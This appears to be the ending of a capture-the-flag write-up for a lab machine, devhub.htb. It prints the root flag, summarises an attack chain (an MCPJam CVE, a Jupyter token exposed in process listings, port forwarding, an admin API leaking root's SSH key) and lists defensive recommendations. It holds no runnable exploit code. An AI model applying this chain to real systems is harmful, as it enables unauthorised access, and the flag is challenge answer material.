

🏁 **Root flag obtained:** `cbf8452dbfebc2aa8a6e28aef5ed55b6`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Full TCP scan → ports **22**, **80**, **6274**; vhost **`devhub.htb`** on nginx.
2. **CVE-2026-23744** against MCPJam on **`http://devhub.htb:6274`** → shell as **`mcp-dev`**.
3. Jupyter token in **`ps aux`** → chisel forward **8888** → JupyterLab terminal as **`analyst`** → user flag.
4. **`~/.opsmcp_key`** → authenticated **`ops._admin_dump`** (`ssh_keys`) on **127.0.0.1:5000** → root **`id_rsa`** → SSH as **root** → root flag.

---
## Defensive Recommendations

- Patch or upgrade MCPJam Inspector; disable or restrict `/api/mcp/connect` in production; never expose Inspector to untrusted networks without strong auth.
- Do not pass secrets on process command lines (Jupyter `--ServerApp.token`); use token files with strict permissions and rotate tokens.
- OPSMCP: remove hidden “break-glass” tools from production builds; run with least privilege; enforce authorization per tool; never return private keys in API JSON.
- Bind admin APIs to authenticated management networks only; require mTLS or short-lived credentials instead of static API keys in user home directories.
